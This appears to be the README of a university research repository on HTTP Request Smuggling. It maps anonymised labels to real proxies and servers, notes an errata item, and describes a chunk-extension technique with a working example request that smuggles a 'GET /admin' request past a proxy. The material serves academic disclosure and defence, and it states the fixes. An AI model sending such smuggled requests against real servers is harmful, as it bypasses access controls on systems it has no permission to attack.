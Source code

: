 
### [Quick link to research](https://kth.diva-portal.org/smash/get/diva2:1596031/FULLTEXT01.pdf)

# Bachelor's thesis on HTTP Request Smuggling

During the spring of 2021, we (Mattias Grenfeldt and Asta Olofsson) wrote our bachelor's thesis in Computer Science at KTH Royal Institute of Technology in Sweden. We studied HTTP Request Smuggling. The thesis can be found [here](https://urn.kb.se/resolve?urn=urn:nbn:se:kth:diva-302371).

You can find the code for the test harness used in `/test-harness` and you can find the requests used to search for bugs with in `/requests`.

## IEEE EDOC 2021 paper

The bachelor's thesis was later rewritten into a conference paper with the help of Viktor Engström, and Robert Lagerström. The paper was submitted to [IEEE EDOC 2021](https://ieee-edoc.org/2021/) and got accepted.

## Systems investigated

Here is the de-anonymization of the systems we investigated:

- P1 - [Apache HTTP Server (httpd)](http://httpd.apache.org/)
- P2 - [Nginx](https://nginx.org/)
- P3 - [Apache Traffic Server](https://trafficserver.apache.org/)
- P4 - [HAProxy](http://www.haproxy.org/)
- P5 - [Traefik](https://traefik.io/)
- P6 - [Caddy](https://caddyserver.com/)
- S1 - [Gunicorn](https://gunicorn.org/)
- S2 - [Actix](https://actix.rs/)
- S3 - [Node.js](https://nodejs.org/en/)
- S4 - [Puma](https://puma.io/)
- S5 - [hyper](https://hyper.rs/)
- S6 - [Golang (net/http)](https://pkg.go.dev/net/http)

## Errata

After the thesis was published, we realized that we had interpreted the situation with `Transfer-Encoding: chunked` and HTTP version 1.0 incorrectly. It was very unclear what a correct interpretation was. So we opened an issue on the specification. [Here](https://github.com/httpwg/http-core/issues/879) is the discussion that followed. This resulted in a change in the specification.

## Chunk extensions technique

After the thesis was published, we discovered another HRS technique. It is in the EDOC paper however. As far as we know, this is a new technique. The technique uses chunk extensions. You can read more about them here:

- https://datatracker.ietf.org/doc/html/rfc7230#section-4.1.1
- https://www.rfc-editor.org/errata/eid4667

Here is how an example request with chunk extensions could look like:

```
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunked
 
5 ; a=b
hello
0

```

We found a proxy which parses chunk extensions incorrectly. It reads the chunk size and then reads any character until it encounters a `\n`. It doesn't verify whether there was a CR before the LF.

This could be combined with many of the servers tested since most servers allow any characters as part of the extension (particularly LF) but read the line until they reach CRLF. So we arrive at the following attack (all lines are terminated by CRLF):

```
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
2;\nxx
4c
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
0
```

The proxy will see the two chunks:

```
xx
```
and:
```
0

GET /admin HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked
 
```

While the server will only see one chunk:

```
4c
```

and another request after it.

The fix for the server is to parse the chunk extension according to the RFC and not allow LF characters in it. The fix for the proxy is to verify that there is a CRLF there.
